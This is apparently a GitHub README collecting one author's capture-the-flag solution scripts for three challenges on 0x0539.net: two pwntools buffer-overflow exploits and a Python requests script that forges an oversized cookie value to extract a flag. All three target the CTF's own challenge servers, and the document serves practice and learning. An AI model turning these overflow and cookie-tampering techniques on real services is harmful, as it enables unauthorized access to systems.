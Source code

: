 <h1 align="center">
	<img src="https://lh3.googleusercontent.com/proxy/CpoUd8Vc7hVO5iuIL7QkWnlU5yt5dADWL_4vnIxil9CLnk9JokqiAJpoQcqe5jJW6doC-BgT-yi8" width="300px"><br>
    0x0539 - Here I will post my solutions/exploits for some of the challenges on 0x0539.net
</h1>
<p align="center">
	This repository will contain my exploits for solving some challenges on 0x0539.net. Please don't steal my code, and claim it as your own.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
     </a>
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Deno-1.0.0+-7DCDE3?style=for-the-badge" alt="Node">
     </a>
</p>

## SIGSEGV
```py
from pwn import *


# SIGSEGV
# Date: 08/21/21
# Made by 0x1CA3


class Pwn():
	def __init__(self, host, port):
		self.host = host
		self.port = port

	def exploit(self):
		payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		connection = remote(self.host, self.port)
		connection.sendline(payload)
		connection.interactive()

def main():
	host = "challenges.0x0539.net"
	port = 7071
	pwn = Pwn(host, port)
	pwn.exploit()

if __name__ == "__main__":
	try:
		main()
	except:
		print("[!] Error running exploit! [!]")
```

## Inizializzato Pizzaria
```py
from pwn import *


# Inizializzato Pizzaria
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def exploit(self):
        payload = b'444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444'
        connection = remote(self.host, self.port)
        connection.sendline(b'3')
        
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        
        connection.sendline(b'4')
        connection.interactive()

def main():
    host = "challenges.0x0539.net"
    port = 3001
    Pwn(host, port).exploit()

if __name__ == "__main__":
    main()
```

## Lucky Feeling
```py
import requests


# Lucky Feeling
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host):
        self.host = host
    
    def exploit(self):
        s = requests.Session()
        site_cookies = {"rounds": "999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999"}
        
        a = s.get(self.host, cookies=site_cookies)
        
        for i in range(99):
            a = s.post(self.host, cookies=site_cookies, data={"guess": ""})

        print(""" 
        [+] Flag output [+]
        -------------------""")
        print(s.post(self.host, cookies=site_cookies, data={"guess": ""}).text)

def main():
    host = "http://challenges.0x0539.net:3002/"
    Pwn(host).exploit()
main()

if __name__ == "__main__":
    main()
```
## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
